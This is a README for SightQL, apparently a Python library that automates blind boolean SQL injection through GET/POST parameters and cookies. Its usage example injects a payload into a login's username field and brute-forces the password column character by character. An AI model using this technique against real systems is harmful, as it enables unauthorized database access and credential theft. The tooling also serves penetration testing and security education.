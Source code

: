 # SightQL

## Description

SightQL is a Python library which allows to exploit an SQL Injection using multiple entrypoints such as classical GET/POST parameters and cookies.

## Installation

Coming soon...

## Usage

```py
from sightql import SightQL

def predicate(r:requests.models.Response) -> bool:
    """
    The predicates must take a requests response and return a bool
    """
    return "Welcome back" in r.text

s = SightQL(
    target="http://localhost",
    params={
        "username":"admin' and {payload} -- -",
        "password":"foo"
    },
    column_to_exfil="password",
    predicate=predicate
)

s.restore()

```

The library will replace all the ``{payload}`` strings in your params/cookies keys and bruteforce all the characters.

## TODO

- Add the headers and User Agent in possible entrypoints